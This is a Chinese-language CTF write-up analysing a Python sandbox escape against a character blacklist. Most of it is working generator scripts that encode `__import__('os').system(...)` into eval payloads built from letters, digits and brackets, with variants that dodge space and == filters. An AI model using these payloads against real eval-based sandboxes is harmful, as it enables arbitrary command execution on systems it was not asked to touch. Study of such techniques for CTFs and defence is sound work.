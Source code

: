 # Python 沙箱逃逸的通解探索之路-解法一分析



## 题目源码

![image-20230508165651164](picture/image-20230508165651164.png)

黑名单包括：

1. 单引号
2. 双引号
3. 点
4. 逗号
5. 空格
6. 加号
7. 双下划线
8. exec
9. str
10. import

## 解法一 payload 分析

从执行上下文看，我们要构造出的 `CMD` 显然是一个字符串，因为下面会进行 `eval`。那么这里就有第一个问题：

- 如何构造出任意字符串？

因为上面的限制条件把单/双引号都干掉了，所以直觉上我们会选择用 `chr()` 函数和加号来拼接出字符串，但是加号也被干掉了。

而由于逗号也被干掉了，所以虽然能调用函数，但是也只能传一个参数。并且点也被限制掉了，所以就算可以 `__import__` 也没法调用方法。

对 Python CTF 题比较熟悉的橘友，第一反应可能是用：

```python
list(dict(whoami=1))[0]
```

这个 payload 还是比较好用的，但问题是，由于 `whoami` 作为参数名，无法携带一些特殊的字符，例如空格、引号、括号 等等，所以仅凭这个手法去构造的 exp，在实际的利用过程中不是非常实用。

![image-20230505210132915](picture/image-20230505210132915.png)

所以需要寻找其他办法。经过一番寻找，我在内置的函数中发现了 `bytes()`：

![image-20230511115812638](picture/image-20230511115812638.png)

也就是说，这个函数可以接收一个可迭代对象，里面是 0-256 的整数，然后就会返回一个 bytes：

![image-20230511115826459](picture/image-20230511115826459.png)

由于 `range()` 是固定顺序的，无法得到我们要的任意字符串。那么接下来问题就变成了：

- **如何构造包含任意序列的整数的可迭代对象？**

如果能构造出 `[119, 104, 111, 97, 109, 105]` 这样的序列，那么就可以通过 `bytes()` 得到 `whoami`。由于不能使用 `,`，所以不能直接写一个列表或者集合之类的出来。

最先映入我脑海中的是**列表推导式**，因为可以通过 `if` 来从列表中捞需要的数据。那么问题是这个布尔表达式要怎么写呢？先思考一下：

对于一个有序的列表，若想捞出任意排序的字符串，不但需要固定下来每个字符的位置，还需要保证固定位置是特定的字符，所以肯定需要两个条件组合，那么 payload 就呼之欲出了：

```python
In [1]: bytes([
    ...:     j for i in range(256) for j in range(256)
    ...:     if i==0 and j == 119 or i == 1 and j == 104 or i == 2 and j == 111
    ...:     or i == 3 and j == 97 or i == 4 and j == 109 or i == 5 and j == 105
    ...: ])
Out[1]: b'whoami'  
```



对应的构造脚本：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([j for i in range({len(exp)}) for j in range(256) if "+" or ".join([f"i=={i} and j=={ord(j)}" for i, j in enumerate(exp)]) + "]))")
```

可以把以上脚本拉入 pycharm 细细分析，代码过长可以参看[此处](https://blog.csdn.net/weixin_36338224/article/details/114693282)设置一下自动换行。

![image-20230505212731309](picture/image-20230505212731309.png)



还有一个**空格**的限制，这个姿势在 OrangeKiller CTF 的第二期已经说过了，用 `[]` 来替代。构造脚本：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]or[".join([f"i]==[{i}]and[j]==[{ord(j)}" for i, j in enumerate(exp)]) + "]]))")
```



![image-20230505213223915](picture/image-20230505213223915.png)

这个 payload 可读性已经特别差了。。。

- 目前对于用中括号替代空格不是完全理解，应该就是转列表然后取列表第一个元素。

如果额外限制了 `==`，那么还可以用 `in` 来代替：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]]or[".join([f"i]in[[{i}]]and[j]in[[{ord(j)}" for i, j in enumerate(exp)]) + "]]]))")
```

最后这个 exp 长这样：

![Python 沙箱逃逸的通解探索之路](picture/9-1664366570.png)

如果 `bytes` 之类的内置函数被禁用了，可以通过 Unicode 来绕过，这个技巧我们已经见得多了，就不多说了。

所以，这个 payload 在大多数情况下已经可以通用了。

- 这个 payload 仅包含 字母、左右小/中括号、数字。



带入到题目源码试一下：

```python
exp = '__import__("os").system("whoami")'

a = f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]]or[".join([f"i]in[[{i}]]and[j]in[[{ord(j)}" for i, j in enumerate(exp)]) + "]]]))"

print(eval(a)) #mirror4s\mirror
```





## 参考链接

- [橘子杀手](https://cn-sec.com/archives/1322842.html)